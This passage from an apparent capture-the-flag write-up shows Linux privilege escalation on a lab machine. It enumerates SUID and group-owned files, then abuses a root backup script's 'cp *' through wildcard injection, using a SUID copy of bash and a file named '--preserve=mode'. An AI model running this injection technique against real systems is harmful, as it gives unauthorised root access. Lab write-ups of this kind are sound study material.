 We can't find a cronjob by running `cat /etc/crontab`, we could run [pspy](https://github.com/DominicBreuker/pspy) to see which script gets executed but by enumeration we can also find this.

- We first check all the files that have a suid id:

    `find / -type f -perm -u=s -ls 2>/dev/null`
- We then check all the files that Gordon has access to, filtering out all the directories that contain "proc" or "sys":
    
    `find / -user gordon -type f 2>/dev/null | grep -v "proc\|sys"`
- Then we find which commands the group Gordon has access to:

    `find / -type f -group gordon 2>/dev/null | grep -v "proc\|sys` 

The last command provides an interesting result:
```bash
$ find / -type f -group gordon 2>/dev/null | grep -v "proc\|sys"       
/opt/encrypt.py
/usr/bin/backup
/home/gordon/.profile
/home/gordon/.viminfo
/home/gordon/flag2.txt
/home/gordon/reports/bash
/home/gordon/reports/report2
/home/gordon/reports/report1
/home/gordon/reports/report3
/home/gordon/.bash_logout
/home/gordon/.bashrc
$ cat /usr/bin/backup
#!/bin/bash
cd /home/gordon/reports/
cp * /home/gordon/backups/
```

When looking at the script we can see there is an `*` being used as a wildcard to copy the files. This can lead to a [wildcard exploit](https://0xdf.gitlab.io/2021/10/16/htb-dynstr.html#wildcard-exploit). By using the `--preserve` option we can write any file that will be owned as root to the `/home/gordon/backups/` directory.

>–preserve[=ATTR_LIST]
>
>preserve the specified attributes (default: mode,ownership,timestamps), if possible additional attributes: context, links, xattr, all

We can copy bash to the `reports` directory, assign it the `setuid` bit (SUID) through `chmod u+s bash`. SUID allows users to run an executable with the file system permissions of the executable's owner meaning that if bash gets copied through the wildcard exploit it will get root as owner. Allowing us to execute commands as root by spawning `backups/bash`.

We also have to add a empty file called `--preserve=mode` which will add this option to the `cp` command of the `/usr/bin/backup` script ensuring the `setuid` bit permission is maintained when it gets copied to the backups directory.

```bash
gordon@devie:~/reports$ cp /bin/bash .
gordon@devie:~/reports$ chmod u+s bash         
gordon@devie:~/reports$ echo '' > '--preserve=mode'        
gordon@devie:~/reports$ ls -lah
total 1.2M
drwxrwx--- 2 gordon gordon 4.0K Apr  4 09:44 .
drwxr-xr-x 4 gordon gordon 4.0K Aug  2  2022 ..
-rwsr-xr-x 1 gordon gordon 1.2M Apr  4 09:43 bash
-rw-rw-r-- 1 gordon gordon    1 Apr  4 09:44 --preserve=mode
-rw-r--r-- 1    640 gordon   57 Feb 19 23:31 report1
-rw-r--r-- 1    640 gordon   72 Feb 19 23:32 report2
-rw-r--r-- 1    640 gordon  100 Feb 19 23:33 report3
```
